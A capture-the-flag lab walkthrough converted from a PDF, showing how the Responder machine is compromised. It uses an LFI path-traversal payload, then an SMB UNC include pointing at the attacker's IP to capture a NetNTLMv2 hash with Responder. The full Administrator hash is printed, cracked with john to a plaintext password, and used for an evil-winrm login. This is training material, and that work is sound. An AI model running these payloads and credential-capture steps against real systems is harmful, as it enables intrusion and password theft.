# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Responder Write-up Prepared by: dotguy Introduction

## Extracted walkthrough

### Page 1

```
Responder Write-up

Prepared by: dotguy
Introduction

Windows is the most predominant operating system in today's world because of its easy-to-use GUI 
accessibility. About 85% of the market share has become a critical OS to attack. Furthermore, most 
organizations use Active Directory to set up their Windows domain networks. Microsoft employs NTLM 
(New Technology LAN Manager) & Kerberos for authentication services. Despite known vulnerabilities, 
NTLM remains widely deployed even on new systems to maintain compatibility with legacy clients and 
servers.
This lab focuses on how a File Inclusion vulnerability on a webpage being served on a Windows machine can 
be exploited to collect the NetNTLMv2 challenge of the user that is running the web server. We will use a 
utility called Responder  to capture a NetNTLMv2 hash and later use a utility known as john the ripper  to 
test millions of potential passwords to see if they match the one used to create the hash. We will also be 
taking a deeper look at the working process of NTLM authentication and how the Responder utility captures 
the challenge. We believe that it's crucial to understand the under the hood workings of a tool or a 
framework as it strengthens the foundation of one's understanding, which aids in the real world exploit 
scenarios that one might face, which do not appear to be vulnerable at the first look. Let's dive straight into 
it.
Enumeration

We will begin by scanning the host for any open ports and running services with a Nmap scan. We will be 
using the following flags for the scan:
-p- : This flag scans for all TCP ports ranging from 0-65535
-sV : Attempts to determine the version of the service running on a port
--min-rate : This is used to specify the minimum number of packets Nmap should send per 
second; it speeds up the scan as the number goes higher
nmap -p- --min-rate 1000 -sV 10.129.128.223
```



### Page 2

```
How does Nmap determine the service running on the port?
Nmap uses a port-services  database of well-known services in order to determine the service 
running on a particular port. It later also sends some service-specific requests to that port to 
determine the service version & any additional information about it. 
Thus, Nmap is mostly but not always correct about the service info for a particular port.
According to the results of the Nmap scan, the machine is using Windows as its operating system. Two ports 
were detected as open having Apache web server running on port 80  along with WinRM on port 5985 .
 
 Windows Remote Management, or WinRM, is a Windows-native built-in remote management protocol 
that basically uses Simple Object Access Protocol to interact with remote computers and servers, as well as 
Operating Systems and applications. WinRM allows the user to :
→ Remotely communicate and interface with hosts
→ Execute commands remotely on systems that are not local to you but are network accessible.
→ Monitor, manage and configure servers, operating systems and client machines from a remote location.
As a pentester, this means that if we can find credentials (typically username and password) for a user who 
has remote management privileges, we can potentially get a PowerShell shell on the host.
Website Enumeration

On opening Firefox and putting http://[target ip] , the browser returns a message about being unable 
to find that site. Looking in the URL bar, it now shows http://unika.htb . The website has redirected the 
browser to a new URL, and your host doesn't know how to find unika.htb . This webserver is employing 
name-based Virtual Hosting for serving the requests.
 Name-Based Virtual hosting is a method for hosting multiple domain names (with separate handling of 
each name) on a single server. This allows one server to share its resources, such as memory and processor 
cycles, without requiring all the services to be used by the same hostname.
The web server checks the domain name provided in the Host  header field of the HTTP request and sends 
a response according to that.
```




### Page 3

```
The /etc/hosts  file is used to resolve a hostname into an IP address & thus we will need to add an entry in 
the /etc/hosts  file for this domain to enable the browser to resolve the address for unika.htb . 
 Entry in the /etc/hosts  file :
Adding this entry in the /etc/hosts  file will enable the browser to resolve the hostname unika.htb   to the 
corresponding IP address & thus make the browser include the HTTP header Host: unika.htb  in every 
HTTP request that the browser sends to this IP address, which will make the server respond with the 
webpage for unika.htb .
On accessing the web page we are presented with a web designing business landing page.
Checking the site out, we see nothing of particular interest. Although, we notice a language selection option 
on the navbar  EN  and changing the option to  FR  takes us to a French version of the website.
echo "10.129.128.223    unika.htb" | sudo tee -a /etc/hosts
```


### Page 4

```
Noticing the URL, we can see that the  french.html  page is being loaded by the  page  parameter, which 
may potentially be vulnerable to a Local File Inclusion (LFI) vulnerability if the page input is not sanitized. 
File Inclusion Vulnerability

Dynamic websites include HTML pages on the fly using information from the HTTP request to include GET 
and POST parameters, cookies, and other variables. It is common for a page to "include" another page 
based on some of these parameters.
 LFI or Local File Inclusion occurs when an attacker is able to get a website to include a file that was not 
intended to be an option for this application. A common example is when an application uses the path to a 
file as input. If the application treats this input as trusted, and the required sanitary checks are not 
performed on this input, then the attacker can exploit it by using the ../  string in the inputted file name 
and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code 
execution as well.
 RFI or Remote File Inclusion is similar to LFI but in this case it is possible for an attacker to load a remote 
file on the host using protocols like HTTP, FTP etc.
We test the page  parameter to see if we can include files on the target system in the server response. We 
will test with some commonly known files that will have the same name across networks, Windows 
domains, and systems which can be found here. One of the most common files that a penetration tester 
might attempt to access on a Windows machine to verify LFI is the hosts file, 
WINDOWS\System32\drivers\etc\hosts  (this file aids in the local translation of host names to IP 
addresses). The ../  string is used to traverse back a directory, one at a time. Thus multiple ../  strings are 
included in the URL so that the file handler on the server traverses back to the base directory i.e. C:\ .
http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts
```






### Page 5

```
Great, LFI is possible as we can view the contents of the C:\windows\system32\drivers\etc\hosts  file in 
the response.
The file inclusion, in this case, was made possible because in the backend the include()  method of PHP is 
being used to process the URL parameter page  for serving a different webpage for different languages. 
And because no proper sanitization is being done on this page  parameter, we were able to pass malicious 
input and therefore view the internal system files.
 
 What is the include()  method in PHP?
The  include  statement takes all the text/code/markup that exists in the specified file and loads it into the 
memory, making it available for use.
For example:
A more detailed explanation about the include()  method of PHP can be found here.
Responder Challenge Capture

File 1 --> vars.php
<?php
$color = 'green';
$fruit = 'apple';
?>
#############################################
File 2 --> test.php 
<?php
echo "A $color $fruit"; // output = "A"
include 'vars.php';
echo "A $color $fruit"; // output = "A green apple"
?>
```




### Page 6

```
We know that this web page is vulnerable to the file inclusion vulnerability and is being served on a 
Windows machine. Thus, there exists a potential for including a file on our attacker workstation. If we select 
a protocol like SMB, Windows will try to authenticate to our machine, and we can capture the NetNTLMv2.
What is NTLM (New Technology Lan Manager)?
NTLM is a collection of authentication protocols created by Microsoft. It is a challenge-response 
authentication protocol used to authenticate a client to a resource on an Active Directory domain.
It is a type of single sign-on (SSO) because it allows the user to provide the underlying authentication factor 
only once, at login.
The NTLM authentication process is done in the following way :
1. The client sends the user name and domain name to the server.
2. The server generates a random character string, referred to as the challenge.
3. The client encrypts the challenge with the NTLM hash of the user password and sends it back to the 
server.
4. The server retrieves the user password (or equivalent).
5. The server uses the hash value retrieved from the security account database to encrypt the challenge 
string. The value is then compared to the value received from the client. If the values match, the client 
is authenticated.
A more detailed explanation of the working of NTLM authentication can be found here.
NTLM vs NTHash vs NetNTMLv2
The terminology around NTLM authentication is messy, and even pros misuse it from time to time, so let's 
get some key terms defined:
A hash function is a one-way function that takes any amount of data and returns a fixed size value. 
Typically, the result is referred to as a hash, digest, or fingerprint. They are used for storing passwords 
more securely, as there's no way to convert the hash directly back to the original data (though there 
are attacks to attempt to recover passwords from hashes, as we'll see later). So a server can store a 
hash of your password, and when you submit your password to the site, it hashes your input, and 
compares the result to the hash in the database, and if they match, it knows you supplied the correct 
password.
An NTHash is the output of the algorithm used to store passwords on Windows systems in the SAM 
database and on domain controllers. An NTHash is often referred to as an NTLM hash or even just an 
NTLM, which is very misleading / confusing.
When the NTLM protocol wants to do authentication over the network, it uses a challenge / response 
model as described above. A NetNTLMv2 challenge / response is a string specifically formatted to 
include the challenge and response. This is often referred to as a NetNTLMv2 hash, but it's not actually 
a hash. Still, it is regularly referred to as a hash because we attack it in the same manner. You'll see 
NetNTLMv2 objects referred to as NTLMv2, or even confusingly as NTLM.
Using Responder
```


### Page 7

```
In the PHP configuration file php.ini , "allow_url_include" wrapper is set to "Off" by default, indicating that 
PHP does not load remote HTTP or FTP URLs to prevent remote file inclusion attacks. However, even if 
allow_url_include  and allow_url_fopen  are set to "Off", PHP will not prevent the loading of SMB URLs. 
In our case, we can misuse this functionality to steal the NTLM hash.
Now, we can refer to this blog and can attempt to load an SMB URL, and in that process, we can capture the 
hashes from the target using Responder.
 How does Responder work?
Responder can do many different kinds of attacks, but for this scenario, it will set up a malicious SMB 
server. When the target machine attempts to perform the NTLM authentication to that server, Responder 
sends a challenge back for the server to encrypt with the user's password. When the server responds, 
Responder will use the challenge and the encrypted response to generate the NetNTLMv2. While we can't 
reverse the NetNTLMv2, we can try many different common passwords to see if any generate the same 
challenge-response, and if we find one, we know that is the password. This is often referred to as hash 
cracking, which we'll do with a program called John The Ripper.
To start with, if the Responder utility is not already installed on the machine, we clone the Responder 
repository to our local machine.
Verify that the  Responder.conf  is set to listen for SMB requests.
With the configuration file ready, we can proceed to start Responder with  python3 , passing in the interface 
to listen on using the -I  flag:
git clone https://github.com/lgandx/Responder
```




### Page 8

```
The network interface can be checked by running the ifconfig  command in the terminal.
In the case of Kali Linux or the HTB Pawnbox, Responder is installed by default as a system utility, thus it can 
be launched just by running the command sudo responder -I {network_interface} .
With the Responder server ready, we tell the server to include a resource from our SMB server by setting 
the page  parameter as follows via the web browser.
In this case, because we have the freedom to specify the address for the SMB share, we specify the IP 
address of our attacking machine. Now the server tries to load the resource from our SMB server, and 
Responder captures enough of that to get the NetNTLMv2.
Note: Make sure to add http://  in the address as some browsers might opt for a Google search instead of 
navigating to the appropriate page.
sudo python3 Responder.py -I tun0
http://unika.htb/?page=//10.10.14.25/somefile
```




### Page 9

```
After sending our payload through the web browser we get an error about not being able to load the 
requested file.
But on checking our listening Responder server we can see we have a NetNTLMv for the Administrator user.
The NetNTLMv2 includes both the challenge (random text) and the encrypted response.
Hash Cracking

We can dump the hash into a file and attempt to crack it with  john , which is a password hash-cracking 
utility.
echo "Administrator::DESKTOP-
H3OF232:1122334455667788:7E0A87A2CCB487AD9B76C7B0AEAEE133:0101000000000000005F3214B534D801
F0E8BB688484C96C0000000002000800420044004F00320001001E00570049004E002D004E0048004500380044
0049003400410053004300510004003400570049004E002D004E00480045003800440049003400410053004300
51002E00420044004F0032002E004C004F00430041004C0003001400420044004F0032002E004C004F00430041
004C0005001400420044004F0032002E004C004F00430041004C0007000800005F3214B534D801060004000200
000008003000300000000000000001000000002000000C2FAF941D04DCECC6A7691EA92630A77E073056DA8C3F
356D47C324C6D6D16F0A001000000000000000000000000000000000000900200063006900660073002F003100
30002E00310030002E00310034002E00320035000000000000000000" > 
hash.txt
```




### Page 10

```
We pass the hash file to  john  and crack the password for the Administrator account. The hash type is 
automatically identified by the  john  command-line tool.
john  will try each password from the given password list, encrypting the challenge with that password. If 
the result matches the response, then it knows it found the correct password. In this case, the password of 
the Administrator account has been successfully cracked.
WinRM

We'll connect to the WinRM service on the target and try to get a session. Because PowerShell isn't installed 
on Linux by default, we'll use a tool called Evil-WinRM which is made for this kind of scenario.
-w : wordlist to use for cracking the hash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
password : badminton
evil-winrm -i 10.129.136.91 -u administrator -p badminton
```







### Page 11

```
We can find the flag under  C:\Users\mike\Desktop\flag.txt .
Congratulations! You can now use the type  command to view the contents of the flag.txt .
```


---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
